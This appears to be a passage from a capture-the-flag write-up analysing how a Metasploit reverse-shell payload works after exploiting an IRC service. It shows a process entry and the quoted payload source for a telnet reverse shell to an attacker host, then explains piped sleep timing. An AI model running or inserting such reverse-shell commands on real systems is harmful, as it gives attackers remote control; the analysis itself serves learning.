     id
    uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)



A new entry shows up in the process list:



    ircd      4873  0.0  0.0   2276    72 ?        S    09:20   0:00 sh -c (sleep 4054|telnet 10.10.14.14 4444|while : ; do sh && break; done 2>&1|telnet 10.10.14.14 4444 >/dev/null 2>&1 &)



That struck me as interesting. I found the source code for
`cmd/unix/reverse`, the default payload for this exploit:



    def command_string
      cmd =
        "sh -c '(sleep #{3600+rand(1024)}|" +
        "telnet #{datastore['LHOST']} #{datastore['LPORT']}|" +
        "while : ; do sh && break; done 2>&1|" +
        "telnet #{datastore['LHOST']} #{datastore['LPORT']}" +
        " >/dev/null 2>&1 &)'"
      return cmd
    end



That's an interesting command string. Here's what I think is happening.
When you pipe `sleep` into something, the next thing runs. If that thing
is waiting for input, it will block waiting for input. But if not, it
will start running immediately as well.

For example:



    $ time sleep 3 | sleep 3

    real    0m3.004s
    user    0m0.005s
    sys     0m0.001s



Since `sleep` doesn't wait to read from stdin, the second command starts
immediately, and both finish about the same time.

If the second command finishes before the initial `sleep`, it still
waits for the `sleep` to finish. So something like `sleep 3 | pwd` will
print the working directory immediately, and then wait for the sleep to
finish:



    $ time sleep 3 | pwd
    /home/df

    real    0m3.004s
    user    0m0.003s
    sys     0m0.002s
